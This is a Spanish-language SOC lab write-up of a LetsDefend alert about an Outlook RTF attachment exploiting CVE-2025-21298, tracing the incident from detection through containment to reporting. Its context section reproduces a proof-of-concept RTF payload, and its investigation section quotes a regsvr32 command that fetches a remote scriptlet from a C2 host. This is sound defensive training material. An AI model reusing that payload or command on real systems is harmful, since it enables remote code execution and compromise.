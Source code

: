 ```yaml
---
title: Let’s Defend SOC336
image: /assets/img/Anexos/Pasted%20image%2020250407101344-1.png
description: Let’s Defend: SOC336 — Windows OLE Zero-Click RCE Exploitation Detected (CVE-2025–21298)
categories: [Blue Team,LetsDefend]
tags: [soc]
---
```




## Introduction
Estamos dentro de un SOC y nos llega una alerta de un incidente de nivel **crírico** y tenemos que actuar.

### Description

- Name: SOC336
- Goal: Investigar el incidente
- link: [LetsDefend](https://app.letsdefend.io)

![](/assets/img/Anexos/Pasted%20image%2020250407101344-1.png)



### PDF Link
- PDF: [PDF Link](https://github.com/juanbelin/Writeups-CTFs-Challenges/blob/main/LetsDefend/LetsDefend%20SOC336.pdf)



## Incidente


Una vez recibida la alerta en el SOC creamos un nuevo saco para esta alerta:

![](/assets/img/Anexos/Pasted%20image%2020250407090151-1.png)

### Contexto 
1. Se ha detectado -> Windows OLE Zero-Click RCE Exploitation Detection (CVE-2025–21298)
2. Se trata de un correo electrónico por Outlook.
3. Contiene un adjunto (mail.rtf)
4. La razón desencadenante (malicious RTF attachment identified with known CVE-2025–21298 exploit pattern)


La extensión RTF se refiere al ==formato de archivo Rich Text Format (Formato de Texto Enriquecido)==. Se trata de un formato de archivo que permite abrir y editar textos en varios programas de procesamiento de texto.

CVE-2025-21298 es una **vulnerabilidad de zero-click** in Windows OLE donde el atacante envia un correo malicioso con un adjunto _.rft_. Cuando la víctima abre o visualiza el correo, el atacante puede ejecutar código arbitrario dentro del sistema gracias al _.rft_. 

**Prueba de concepto**

> https://github.com/ynwarcs/CVE-2025-21298

```
{\rtf1{\object\objhtml\objw1\objh1\objupdate\rsltpict{\*\objclass None}{\*\objdata 0105000002000000
0a000000
53746174696344696200
00000000
00000000
04000000
00000000
00000000
05000000
02000000
aa00
02000000
00000000
}
}}

```


**Información Importante para la investigación**

- Usuarios involucrados
- Hashes
- Direcciones IP
- Hostnames
- Ficheros
- Acciones tomadas


### Investigación

Primero acudo a webs de inteligencia para comprobar si el hash es malicioso. Inmediatamente **Virus Total** lo detecta como malicioso y detecta el CVE:

![](/assets/img/Anexos/Pasted%20image%2020250407090747-1.png)

También lo compruebo en el apartado de **Threat Intel** del SOC:

![](/assets/img/Anexos/Pasted%20image%2020250407090934-1.png)


Una vez confirmado que el adjunto es un exploit, hay que entender que ha pasado. Como la entrada del exploit fue via SMTP, voy directo a **Email Security** y comienzo a filtrar:

![](/assets/img/Anexos/Pasted%20image%2020250407091142-1.png)

Tras el filtrado, se reporta el mail que originó el ataque, fue enviado por _projectmanagement@pm.me_ a el usuario _Austin@letsdefend.io_.

![](/assets/img/Anexos/Pasted%20image%2020250407091220-1.png)

El correo es el siguiente:

![](/assets/img/Anexos/Pasted%20image%2020250407091301-1.png)

Este correo se hace pasar por el jefe de proyecto del equipo y contiene un título y cuerpo que generan urgencia.

Sabiendo esto, Vamos al apartado **Endpoint Security** y filtramos por Austin para buscar actividades sospechosas y encontramos el desencadenante:

![](/assets/img/Anexos/Pasted%20image%2020250407091442-1.png)

Se ejecuta `OUTLOOK` para visualizar el correo,  y segundos después `cmd` y `regsvr32`.

![](/assets/img/Anexos/Pasted%20image%2020250407103438-1.png)


![](/assets/img/Anexos/Pasted%20image%2020250407091553-1.png)



```powershell
regsvr32.exe /s /u /i:http://84.38.130.118.com/shell.sct scrobj.dll

# regsvr32.exe es una herramienta de línea de comandos que permite registrar y desregistrar controles OLE, como DLL y ActiveX, en el Registro de Windows

```

![](/assets/img/Anexos/Pasted%20image%2020250407091829-1.png)


OUTLOOK.EXE -> cmd.exe -> regsvr32.exe

Ahora podemos confirmar que se ha producido una ejecución de comandos explotando una vulnerabilidad en **Outlook**.  Ahora para obtener más información del servidor C2 (Command al Control) al que se ha hecho la solicitud mirando los logs y confirmar que se ha producido una conexión al C":


![](/assets/img/Anexos/Pasted%20image%2020250407092123-1.png)

Vemos que efectivamente se produjo una solicitud. Ahora el siguiente paso será ponerlo en cuarentena:


![](/assets/img/Anexos/Pasted%20image%2020250407092208-1.png)

Después de la Investigación toca reportar el incidente.

### Reporte

![](/assets/img/Anexos/Pasted%20image%2020250407092346-1.png)

En indicador ponemos "**otro**".

![](/assets/img/Anexos/Pasted%20image%2020250407092407-1.png)

En este apartado indicamos que el malware no fue eliminado ni puesto en curentena en ningún momento por el EDR:

![](/assets/img/Anexos/Pasted%20image%2020250407092446-1.png)

En el apartado análisis de malware indicamos que es malicioso ya que lo comprobamos anteriormente:

![](/assets/img/Anexos/Pasted%20image%2020250407092505-1.png)

Aquí confirmamos que hubo una petición a un C2 y se estableció la conexión:

![](/assets/img/Anexos/Pasted%20image%2020250407092529-1.png)

En los adjuntos podríamos añadir lo siguiente:

![](/assets/img/Anexos/Pasted%20image%2020250407092914-1.png)

Por último, en la nota final se podría añadir algo como:

![](/assets/img/Anexos/Pasted%20image%2020250407093225-1.png)